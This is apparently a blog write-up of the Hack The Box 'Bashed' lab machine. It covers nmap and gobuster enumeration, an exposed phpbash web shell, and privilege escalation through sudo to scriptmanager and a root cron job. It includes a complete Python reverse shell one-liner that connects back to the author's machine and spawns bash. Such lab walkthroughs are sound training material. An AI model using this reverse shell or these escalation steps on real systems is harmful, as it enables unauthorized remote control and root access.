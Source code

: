 Title: HTB Bashed box writeup
Tags: oscp, htb, cron
Summary: Walkthrough for this one
Date: 2020-09-01 15:00
Status: published

# Enumeration
Let's start with -sS all TCP range since we are not limited in traffic and not afraid of IDS:
```text
    Nmap 7.80 scan initiated Tue May 12 19:05:00 2020 as: nmap -sS -p- -oA enum/nmap-ss-t-all 10.10.10.68
    Nmap scan report for bashed.htb (10.10.10.68)
    Host is up (0.061s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    Nmap done at Tue May 12 19:06:30 2020 -- 1 IP address (1 host up) scanned in 90.26 seconds
```
Not so much eh. I tried to run sU scan in the background and found nothing interesting. Looks like the webserver is
the way in. Spin up gobuster scan to find something interesting and while it's running let's go and see what's
interesting is there. Both `10.10.10.68` and `bashed.htb` which I added to `/etc/hosts`, leads to the same page
with some interesting info:

![phpbashed page](/cstatic/htb-bashed/phpbash-web.png)

There might be that shell somewhere in there. I also manually inspected source code of this page to try to find
some interesting details, but found only usual stuff like `/images` directory. At the time gobusted did his work:
```text
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /css (Status: 301)
    /dev (Status: 301)
    /fonts (Status: 301)
    /images (Status: 301)
    /js (Status: 301)
    /php (Status: 301)
    /server-status (Status: 403)
    /uploads (Status: 301)
```
`/dev` entry looks very promising, especially with the fact that blog admin stated that he was developing php shell
on this server. Indeed this dir is listable and there are some web phpbash shells in there:

![phpbash shell](/cstatic/htb-bashed/php-web-shell.png)

There is netcat on this box, but it was compiled w/o `-e` option. I tried to sent back bash revshell via `/dev/tcp`
but it seems that current user has no access to this subsystem, so I used python reverse shell oneliner instead:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.14.13",53))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash", "-i"])
```
Just wrapped it in one line with semicolons and run it with `python3 -c`. Interactive unpriv shell:

![unpriv shell](/cstatic/htb-bashed/unpriv-shell.png)

# Privilege escalation
We could run sudo w/o password as scriptmanager:

![sudo scriptmanager](/cstatic/htb-bashed/sudo-l.png)

This user owns some interesting directory under root:

![scriptmanager dir](/cstatic/htb-bashed/scriptmanager-files.png)

There are only two files in this directory, one simple python  script and a txt file:

![scripts](/cstatic/htb-bashed/scripts.png)

Notice that while the `test.py` owned by scriptmanager:scriptmanager, `test.txt` is owned and
only writable by root. This is a direct hint that `test.py` might have been executing with
root privileges in some way, first thought was that there is a cron job that runs it. I found nothing
useful in cron folders, crontab file or `/var/log` so I've uploaded [pspy](https://github.com/DominicBreuker/pspy)
and my hypothesis turned out to be right:

![cron hit](/cstatic/htb-bashed/cron.png)

The job will run every `.py` file in `/scripts` so we could just reuse our reverse shell from
above to acquire root privileges:

![root shell](/cstatic/htb-bashed/root-shell.png)
